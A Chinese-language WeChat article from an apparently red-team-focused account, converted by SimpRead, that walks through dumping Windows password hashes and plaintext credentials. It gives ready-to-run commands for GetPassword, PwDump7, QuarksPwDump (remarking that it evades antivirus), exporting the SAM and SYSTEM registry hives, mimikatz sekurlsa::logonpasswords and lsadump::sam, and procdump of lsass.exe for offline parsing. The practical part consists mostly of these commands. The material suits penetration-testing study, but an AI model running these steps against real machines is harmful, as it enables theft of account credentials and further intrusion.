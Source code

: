 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/FHgseKf12IrkJL-9DkUSpg)

渗透攻击红队

一个专注于红队攻击的公众号

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDoZibS8XU01CtEtSbwM3VGr3qskOmA1VkccY0mwKTCq6u2ia1xYRwBn3A/640?wx_fmt=jpeg)

  

  

大家好，这里是 **渗透攻击红队** 的第 **24** 篇文章，本公众号会记录一些我学习红队攻击的复现笔记（由浅到深），不出意外每天一更

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC4T65TNkYZsPg2BJ2VwibZicuBhV9DGqxlsxwG0n2ibhLuBsiamU7S0SqvAp6p33ucxPkuiaDiaKD6ibJGaQ/640?wx_fmt=gif)

LM Hash 和 NTLM Hash

Windows 操作系统通常使用两种方法对用户的明文密码进行加密处理。

在域环境中，用户信息存储在 ntds.dit 中，加密后为散列值。

在 Windows 操作系统中，Hash 的结构通常如下：

```
username:RID:LM-HASH:NT-HASH
```

LM Hash（LAN Manager Hash）其本质是 DES 加密。在 Windows 2008 及开始之后默认禁用的是 LM Hash。

NTLM Hash 是基于 MD4 加密算法进行加密的，服务器从 Windows Server 2003 以后，Windows 操作系统的认证方式均为 NTLM Hash。

**Windows Hash 散列值抓取**

‍‍‍‍‍要想在 Windows 操作系统中抓取散列值或明文密码，必须将权限提升为 System。本地用户名，散列值和其他安全验证信息都保存在 SAM 文件中。

lsass.exe 进程用于实现 Windows 的安全策略（本地安全策略和登录策略）。可以使用工具将散列值和明文密码从内存中的 lsass.exe 进程或 SAM 文件中导出。‍‍‍‍‍

* * *

**GetPassword**

* * *

在命令行运行 Getpassword 即可获取明文密码

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLttiaoNTfKV8g2svLlLYcB5orianttfuWWibDhC8j5dicyLfFUZJuwR7YnSprYhYIMFvicO1Ah5XMDD8w/640?wx_fmt=png)

* * *

**PwDump7**

在命令行环境中运行 PwDump7 程序，可以得到系统中所有账户的 NTLM Hsh：（必须要有系统权限才能运行）

下载地址：https://download.openwall.net/pub/projects/john/contrib/pwdump/pwdump7.zip

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLttiaoNTfKV8g2svLlLYcB5sicibvLbicpD2FB4UolpE2mmDHoHtVicNWdcIb7puxaqd4bkicQVQGgDroQ/640?wx_fmt=png)

* * *

**QuarkPwDump**

在命令行下输入：导出三个用户的 NTML Hash

```
QuarksPwDump.exe --dump-hash-local
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLttiaoNTfKV8g2svLlLYcB5fvP5eaqAfcbicdicSqVMVuwPic9YjZHjuj7obBwib0k5Sh58R4aibwv8TjQ/640?wx_fmt=png)

QuarksPwDump 不过杀软。

* * *

**通过 SAM 和 System 文件抓取密码**

（1）导出 SAM 和 System 文件：通过 reg 的注册表导出

```
reg save hklm\\sam sam.hive
reg save hklm\\system system.hive
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLttiaoNTfKV8g2svLlLYcB5CiarUVMnGa8ZibiafhfiaAdEE15Qktx3vvmSSqgia6iafSGS7ZOvPQvicgt1A/640?wx_fmt=png)

（2）通过读取 SAM 和 System 文件获得 NTLM Hash

1、使用 mimikatz 读取 SAM 和 System 文件

将导出的 system.hive 和 sam.hive 文件放到 mimikatz 文件夹下，然后运行 mimikatz 命令：

```
lsadump::sam /sam:sam.hive /system:system.hive
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLttiaoNTfKV8g2svLlLYcB5q53oE4PsfOibDQphegCtT6zib1zEp8VZBQZPOGbuT0L22sBnGZic08ib6g/640?wx_fmt=png)

2、使用 mimikatz 直接读取本地 SAM 文件，导出 Hash 信息

该方法与 1 不同的是，需要在目标机器上运行 mimikatz：

```
#提升权限
privilege::debug
#提升权限为system
token::elevate
#读取本地SAM文件，获得NTLM Hash
lsadump::sam
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLttiaoNTfKV8g2svLlLYcB5BPdp6TDIeCLo1JY6OGkuic5nJMCDGkbnlzOGHNyhkoj9Ju6MPDNRicGQ/640?wx_fmt=png)

* * *

**使用 Mimikatz 在线读取 SAM 文件**

在目标 mimikatz 目录下运行命令，在线读取散列值及明文密码：

```
mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords"
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLttiaoNTfKV8g2svLlLYcB5bCz9O3u22A1aicEMlQjsokaDroKt6ZiaibkTCv4ibHZI1Ty2DmMzH8c0pw/640?wx_fmt=png)

* * *

**使用 Mimikatz 离线读取 lsass.dmp 文件**

（1）导出 lsass.dmp 文件

通过 procdump.exe 文件导出 lsass.dmp 文件

procdump 下载地址：https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump

在命令行输入命令会生成一个 lsass.dmp 文件：

```
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLttiaoNTfKV8g2svLlLYcB5t7FYk0bYgicvNykgM264MAbtWZn83xnWsjvicFFX6FnGdR8UjWOhAnZg/640?wx_fmt=png)

（2）使用 mimikatz 导出 lsass.dmp 文件中的密码散列值

首先将导出的 lsass.dmp 文件放到 mimikatz 的目录下，然后输入命令：

如果有 **Switch to MINIDUMP** 说明加载成功

```
sekurlsa::minidump lsass.dmp
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLttiaoNTfKV8g2svLlLYcB5kINcG1QWQpHGbw8RbCEV8L0sJdn7PF9aC0KliaQ5OHXugEMwAJnMcKg/640?wx_fmt=png)

最后运行命令导出密码散列值：

```
sekurlsa::logonPasswords full
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLttiaoNTfKV8g2svLlLYcB5TSYfxk3UibOw0ud28hwBxQPpzy52FpQL1McDeVibCbYz0OknRFQvtTmQ/640?wx_fmt=png)

* * *

渗透攻击红队 发起了一个读者讨论 快来发表你的评论把！

参考文章：

https://zhuanlan.zhihu.com/p/220277028

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

渗透攻击红队

一个专注于渗透红队攻击的公众号

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDdjBqfzUWVgkVA7dFfxUAATDhZQicc1ibtgzSVq7sln6r9kEtTTicvZmcw/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDY9HXLCT5WoDFzKP1Dw8FZyt3ecOVF0zSDogBTzgN2wicJlRDygN7bfQ/640?wx_fmt=png)

点分享

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDRwPQ2H3KRtgzicHGD2bGf1Dtqr86B5mspl4gARTicQUaVr6N0rY1GgKQ/640?wx_fmt=png)

点点赞

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDgRo5uRP3s5pLrlJym85cYvUZRJDlqbTXHYVGXEZqD67ia9jNmwbNgxg/640?wx_fmt=png)

点在看